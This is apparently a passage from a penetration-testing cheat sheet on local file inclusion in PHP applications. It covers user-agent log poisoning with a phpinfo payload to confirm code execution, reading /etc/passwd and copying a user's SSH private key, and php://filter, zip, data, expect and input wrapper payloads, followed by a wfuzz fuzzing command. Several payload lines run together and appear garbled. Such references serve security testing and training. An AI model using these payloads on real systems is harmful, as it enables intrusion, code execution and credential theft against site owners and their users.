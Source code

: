 Now change your user agent to the first created user agent that contain **`<?php phpinfo(); ?>`** and reload the page , if you got a text similar to **PHP VERSION** then you know you have code execution.

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-phpinfohttps://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
```

### Capture rsa\_key <a href="#capture-rsa_key" id="capture-rsa_key"></a>

Check `/etc/passwd` for user. Key stored in `/home/user/ssh/id_rsa.` Copy key to kali, do chmod 600, then `ssh user@ip -i key`

### Using Wrappers <a href="#using-wrappers" id="using-wrappers"></a>

#### php://filter <a href="#php-filter" id="php-filter"></a>

```
https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/
```

```
?page=php://filter/read=string.rot13/resource=index.php?page=php://filter/convert.base64-encode/resource=index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

#### zip <a href="#zip" id="zip"></a>

```
?page=zip://shell.jpg%23payload.php
```

#### data <a href="#data" id="data"></a>

```
?page=data://text/plain;base64,[base64_encode_shell]
```

#### expect:// <a href="#expect" id="expect"></a>

```
?page=expect://id?page=expect://ls
```

#### input:// <a href="#input" id="input"></a>

```
?page=php://input | POST DATA: 
```

#### wfuzz command <a href="#wfuzz-command" id="wfuzz-command"></a>

```
 wfuzz -u "http://$ip/page.php?command=FUZZ" -w /opt/LFISuite/pathtotest_huge.txt 
```
